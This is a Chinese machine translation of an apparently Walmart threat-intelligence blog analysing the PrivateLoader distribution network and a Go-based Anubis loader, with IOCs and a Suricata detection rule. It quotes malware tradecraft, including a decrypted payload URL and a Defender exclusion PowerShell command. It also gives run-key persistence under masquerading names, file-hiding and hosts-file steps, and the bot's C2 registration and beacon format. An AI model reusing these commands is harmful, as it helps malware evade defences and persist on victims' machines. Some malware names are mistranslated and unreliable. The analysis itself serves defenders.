

# Anubis 加载程序的专用加载程序

> 原文：<https://medium.com/walmartglobaltech/privateloader-to-anubis-loader-55d066a2653e?source=collection_archive---------2----------------------->

作者:杰森·里维斯和约书亚·普拉特


英特尔 471 发布了一份报告[1],内容是一个加载程序系统被用来分发各种犯罪软件恶意软件系列:

*   Qbot
*   烟雾装卸工
*   特技机器人
*   纳米核心鼠
*   红线偷窃者
*   njRat
*   Djvu 勒索软件
*   维达尔偷窃者
*   雷姆科斯鼠
*   Tofsee spambot
*   QRat
*   Lockbit 勒索软件
*   Dridex
*   达纳博特

恶意软件家族的多样性促使沃尔玛网络英特尔团队展开进一步调查。

## **基础设施分析**

报告提到了位于主命令和控制服务器上的管理员面板。该面板被作者命名为“EZCubePanel”。配置选项相当简单，如 intel471 产品所示。该面板被配置为提供链接和浏览器扩展。


Links

浏览器扩展当时似乎被暂停了，但很可能在以前的活动中使用过。


Extensions

虽然已经实现了 AdminLTE 开源引导模板来简化 UI 过程，但是主要功能是用 php 实现的。

奇怪的是，两个地理标签似乎与特定的域名相关联。标签 WW_5 是 ezsoftware[的硬编码。]ru，而标签 WW_8 链接到 vip-space[。]com & vip-files[。]com


Domains

## **安装工**

私有加载器安装程序提出了一些有趣的请求。

```
941c7e39e8ea114465eadbd45aa709d55ad36ba551cbbf552e4c09b494a3a32d
```

在下载代理列表并联系 statistics.php 之后，有效负载链接用简单的 xor 例程加密并传送给客户端。

```
>>> for i in range(len(b)):...   b[i] ^= 0x1d...>>> bbytearray(b'URL:https://cdn.discordapp. com/attachments/910842184708792331/931520130133930034/PL_Client.mp')
```

## **数据库**

感染计数显示了一个基于大型加载程序的系统，该系统模拟了 Intel471 报告中提供的一些数据。

扩展感染统计:


交付的日志感染统计:

## **装载机装载装载机**


根据该报告，“隐私工具”域被用作 SmokeLoader 的主要交付工具。在检查了几个域之后，发现了一些有趣的统计数据。2021 年 11 月，在 20 天的时间里，有超过 125，000 的负载。对于 2021 年 12 月，pab2 和 pab3 大约为 82K。


Stats

下面的 stat 面板显示了会员 IDs pub1、pub2 和 pub3 的负载。九天内将近 33K 的负载。


Current Stats

在我们的调查中，我们发现了 PrivateLoader 交付的其他装载机。类似于报告所说的。然而，在一些加载器执行过程中，我们观察到流量似乎与其他窃取者不一致。


在进一步检查“build_dl”流量后，其中一个未覆盖的加载器样本实际上是在 GoLang 开发的。

执行时，该示例通过尝试打开\\PHYSICALDRIVE:


接下来它会截图:


然后开始自行安装:


一些字符串是模糊的，但是模糊只是从每个字符中减去一个:

```
def deobf(a):
  b = bytearray(a)
  for i in range(len(b)):
    b[i] -=1
  return b
```

现在，我们可以轻松地规划安装过程步骤，恶意软件利用 powershell 来设置一些排除路径:

```
powershell -Command Add-MpPreference -ExclusionPath
on:
  AppData\Local\Temp
  AppData\Local\Microsoft
```

在 Software \ \ Microsoft \ \ Windows \ \ current version \ \ Run 中设置 runkey，注册表名称和安装名称将从可能的硬编码列表中随机生成，安装名称:

```
svchost
csrss
rundll32
winlogon
smss
taskhost
unsecapp
AdobeARM
winsys
jusched
BCU
wscntfy
conhost
csrss
dwm
sidebar
ADService
AppServices
acrotray
ctfmon
lsass
realsched
spoolsv
RTHDCPL
RTDCPL
MSASCui
```

对于注册表名称:

```
Trion Softworks
Mystic Entertainment
Microsoft Partners
Client-Server Runtime Subsystem
Networking Service
```

然后将自己移动到适当的位置后，它将使用“attrib”将自己设置为系统文件并隐藏:

```
attrib +S +H
```

除了修改主机文件:(为简洁起见进行了编辑)


和刷新 DNS 缓存:

```
ipconfig //flushdns
```

安装后，bot 将通过 HTTP 或 TCP 连接到 C2，并通过 TCP 将各种信息发送回 C2 进行注册:

```
md5(cmd /c whoami) + 
“->Reg->[“ + 
Datetime + 
”]->” + 
<cmd /c whoami> + 
“->” + 
<wmic cpu get name> + 
“->” + 
<wmic path win32_VideoController get name> + 
“->” + 
<cmd /C ver> + 
“->” +
Bot Build + 
<isAdmin()>
```


Bot registration

对于 HTTP 流量，可以在下面看到一个示例，发送到服务器的数据通过向每个字节添加 2 来进行混淆:

```
POST /callback HTTP/1.1
Host: redacted.x.x.x
User-Agent: Go-http-client/1.1
Content-Length: 57
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzipcallback=HktgYcnn%22Cffgf%22%2F%22lwuejgf&reginfo=WugtMKV
```

注册后，机器人将检查要执行的任务:


Task parsing



Task Commands

## **面板**

这个面板自称为“ANUBIS 面板”,包含大约 2 万个机器人。这些机器人似乎被用于加密挖掘和分发其他恶意软件。


## **生产者价格指数统计**

按国家:


安装的国家地图:


从一月开始安装统计切片:


统计数据清楚地显示，Anubis 运营商每周交付数千个安装。在 Anubis 的例子中，有超过 500 个独特的二进制文件被分发。Anubis 交付的任务似乎也与 PrivateLoader 的任务类似地重叠。

在 12 天的时间里，收集了超过 11 GB 的窃取者日志。虽然破解软件在网络犯罪领域经常被忽视，但作为一种策略，它显然被低估了。

## **IOCs**

```
Privacy-tools-for-you-777[.]com
2.56.59[.]42
212.193.30[.]29
212.193.30[.]45
privacy-tools-for-you-782[.]com
file-coin-host-12[.]com
host-file-file0[.]com
privacy-tools-for-you-781[.]com
coin-file-file-19[.]com
coin-coin-file-9[.]com
file-file-host8[.]com
data-host-coin-8[.]com
file-file-host4[.]com
host-data-coin-11[.]comAnubis Loader:
84b33d3b0c1e396758f9591e797f5b0029be3f6a752dc2bec2dc20a85d68adda
b7e657155c23d71f732171d68764793bb6010d42da1f80eb4dc9a630aeae1307
4b5b660add37cd7a6d6a2444c3d410ed0de1c24e59c5e1d0091976bbc8099fef
```

TCP 流量 suricata 规则:

```
alert tcp $HOME_NET any -> $EXTERNAL_NET any ( msg:"Anubis Registration"; content:"|54 67 69 2f 40|"; within:50; content:"|4f6b6574717571687622596b7066717975225d586774756b7170|"; classtype:trojan-activity; sid:9000001; rev:1;)
```

## **参考文献**

1:[https://intel471.com/blog/privateloader-malware](https://intel471.com/blog/privateloader-malware)

2:[https://www . fortinet . com/blog/threat-research/omicron-variant-lure-used-to-distribute-redline-stealter](https://www.fortinet.com/blog/threat-research/omicron-variant-lure-used-to-distribute-redline-stealer)